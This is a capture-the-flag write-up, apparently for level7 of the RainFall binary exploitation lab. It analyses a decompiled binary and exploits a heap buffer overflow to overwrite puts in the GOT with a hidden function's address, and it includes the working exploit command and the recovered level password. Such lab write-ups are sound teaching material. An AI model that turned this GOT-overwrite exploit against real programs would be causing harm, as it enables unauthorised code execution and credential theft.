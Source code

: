 # level7

```sh
➜  ~ ssh level7@127.0.0.1 -p 4242
	  _____       _       ______    _ _
	 |  __ \     (_)     |  ____|  | | |
	 | |__) |__ _ _ _ __ | |__ __ _| | |
	 |  _  /  _` | | '_ \|  __/ _` | | |
	 | | \ \ (_| | | | | | | | (_| | | |
	 |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on 10.0.2.15:4242
level7@127.0.0.1's password:
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level7/level7
level7@RainFall:~$
```

```sh
level7@RainFall:~$ ./level7
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 'Kid vs Shanks was not a fight, it was an agression'
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 "Ikoku" "Hakoku"
~~
level7@RainFall:~$
```

__Two tilds...__

![binary 7](Ressources/binary_7-hex-rays.png)

- `v6` is allocated `0x8u` (8 bytes)
- `v6[0]` is allocated `0x8u` (8 bytes)
- `v5` is allocated `0x8u` (8 bytes)
- `v5[0]` is allocated `0x8u` (8 bytes)
- `argv[1]` is copied in `v6[1]`
- `argv[2]` is copied in `v5[1]`
- `v3` stock the content of the file `/home/user/level8/.pass` and passed to the global variable `c`
- A hidden an not-used function `m` that `printf` the content of `c` and the current time (???).

# Vulnerability : <u>Heap Buffer Overflow Attack</u>

This time, we have to overflow in the heap. We have to overflow `v6`, then passed the address of `puts@got.plt`. And as a second argument, we passed the address of the hidden function `m`.

What will be happens ? It replace the address of `puts@got.plt` by the address of `m`. When `puts` will be called, it redirect to the address of the function `m`.

Let's try this (the offset of the first argument was `20`) :

```sh
level7@RainFall:~$ ./level7 `python -c 'print "-"*20 + "\x28\x99\x04\x08"'` `python -c 'print "\xf4\x84\x04\x08"'`
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1729434708
level7@RainFall:~$
```

# LEZZZZZZGOOOOOOOOO

Let's go to the next level !

```sh
level7@RainFall:~$ su level8
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level8/level8
level8@RainFall:~$
```

# level7 complet !
![yeah](../assets/yeah.gif)

